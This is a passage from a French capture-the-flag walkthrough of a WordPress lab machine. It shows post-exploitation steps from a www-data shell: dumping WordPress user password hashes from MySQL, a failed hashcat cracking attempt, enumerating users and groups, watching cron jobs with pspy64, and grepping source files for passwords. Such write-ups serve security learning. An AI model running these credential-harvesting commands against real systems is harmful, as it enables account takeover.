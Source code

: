 ```plain
mysql> select user_login, user_pass from wp_users;  
+------------+------------------------------------+ 
| user_login | user_pass                          | 
+------------+------------------------------------+ 
| user       | $P$BSsAlgA7qDOQFfZYVze6KO48091sn81 | 
| Snufkin    | $P$BghGdW9kvudcJWOnTi.TfmJw7tzsgR/ | 
| Joxter     | $P$B7SOjzTIu5bBYTnO1SfWyL2bJF51xn0 | 
| Boe        | $P$B7JYXSreWFvNpm3kbrHa9ho.NDG0K80 | 
+------------+------------------------------------+ 
4 rows in set (0.00 sec)
```

J'ai tenté en vain de les casser avec *Penglab* (des bébés pingouins sont donc morts sans raison valable, désolé) :  

```plain
!echo '$P$BSsAlgA7qDOQFfZYVze6KO48091sn81' > /tmp/hash.txt
!echo '$P$BghGdW9kvudcJWOnTi.TfmJw7tzsgR/' >> /tmp/hash.txt
!echo '$P$B7SOjzTIu5bBYTnO1SfWyL2bJF51xn0' >> /tmp/hash.txt
!echo '$P$B7JYXSreWFvNpm3kbrHa9ho.NDG0K80' >> /tmp/hash.txt
!hashcat -m 400 /tmp/hash.txt /content/wordlists/hashesorg2019
```

Sur le système se trouve deux utilisateurs autre que root :  

```plain
uid=1000(Joxter) gid=1000(Joxter) groups=1000(Joxter),1002(devsec) 
uid=1001(Boe) gid=1001(Boe) groups=1001(Boe),1002(devsec),1003(supergroup)
```

J'ai relevé quelque chose d'assez mystérieux avec le dossier */opt* que je ne peux pas accéder :  

```plain
www-data@moee:/var/www/public_html$ find / -group devsec 2> /dev/null     
/home/Joxter 
/opt
www-data@moee:/var/www/public_html$ ls -ld /opt/ 
drwxr-x--- 2 Boe devsec 4096 Nov 22  2020 /opt/
```

La chose est confirmée avec *pspy64* :  

```plain
2022/01/28 09:20:01 CMD: UID=0    PID=19891  | /usr/sbin/CRON -f  
2022/01/28 09:20:01 CMD: UID=1001 PID=19892  | /bin/sh -c python3 /opt/Flag.py
```

A ce stade cette information ne m'est toutefois d'aucune utilité.  

Finalement un grep des familles m'a fait remarqué un fichier que LinPEAS n'avait pas détecté :  

```plain
$ grep --include "*.php" -l -r -i password .
--- snip ---
wp-includes/wp-db.php
--- snip ---
```
